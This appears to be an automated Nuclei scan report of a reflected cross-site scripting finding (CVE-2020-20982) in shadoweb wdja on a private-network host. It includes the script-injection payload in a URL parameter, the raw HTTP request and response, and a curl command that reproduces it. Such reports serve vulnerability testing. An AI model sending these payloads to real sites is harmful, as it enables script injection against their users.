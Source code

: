### shadoweb wdja v1.5.1 - Cross-Site Scripting (CVE-2020-20982) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-20982**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/php/passport/index.php?action=manage&mtype=userset&backurl=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:19 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | shadoweb wdja v1.5.1 - Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | cve, cve2020, xss, wdja, shadoweb |
| Severity | critical |
| Description | shadoweb wdja v1.5.1 is susceptible to cross-site scripting because it allows attackers to execute arbitrary code and gain escalated privileges via the backurl parameter to /php/passport/index.php. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-20982](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-20982) |
| CVSS-Score | 9.60 |

**Request**
```http
GET /php/passport/index.php?action=manage&mtype=userset&backurl=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 249
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/php/passport/index.php?action=manage&mtype=userset&backurl=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/shadoweb/wdja/issues/1
- https://nvd.nist.gov/vuln/detail/cve-2020-20982

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36' 'http://192.168.198.179:8080/php/passport/index.php?action=manage&mtype=userset&backurl=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
